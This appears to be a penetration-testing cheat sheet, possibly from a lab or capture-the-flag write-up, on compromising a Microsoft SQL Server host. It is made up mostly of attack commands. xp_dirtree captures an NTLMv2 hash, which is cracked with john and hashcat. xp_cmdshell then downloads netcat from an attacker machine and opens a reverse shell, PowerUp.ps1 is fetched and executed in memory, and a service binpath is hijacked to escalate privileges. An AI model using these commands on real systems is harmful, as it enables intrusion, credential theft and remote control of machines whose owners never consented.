 in SQL:
```bash
exec xp_dirtree '\\<kali ip\share\',1,1
```

> This should give us a hash in our smbserver (NTLMv2 hash)

- copy the hash in a txt
- and try to crack with john

```bash
john --show --format=netntlmv2 hash.txt -w=/rockyou.txt
hashcat -m 5600 hash.txt rockyou.txt -O
```

in SQL:
```bash
SQL > enable_xp_cmdshell
```

If we can enable the shell in SQL, we can execute commands:
```bash
SQL> xp_cmdshell dir c:\
# upload a netcat and get a better shell
# open a web server in kali, to send a file

xp_cmdshell powershell -c Invoke-WebRequest "http://<kali ip>/nc.exe" -OutFile "C:\<path>\nc.exe"
xp_cmdshell C:\<path>\nc.exe <kali ip> <port> -e cmd.exe
```

> we get a user shell

```bash
# open a web server again: Inside the directory that has PowerUp.ps1 | winpeas | sherlock etc
python -m http.server
```

This will download and execute the powerup from our web server:
```bash
echo IEX(New-Object Net.WebClient).DownloadString('http://<kali ip>:80/PowerUp.ps1') | powershell -noprofile -
```

if u find a vulnerable service:
```bash
sc qc <service>
```

We can change de binary path and exploit using netcat:
```bash
sc config <service> binpath= "C:\path\nc.exe <kali ip> <port> -e cmd.exe"
sc qc <service> =to visualize the new binpath
```

open a listener
```bash
sc stop <service>
sc start <service>
```

> we should get a shell back

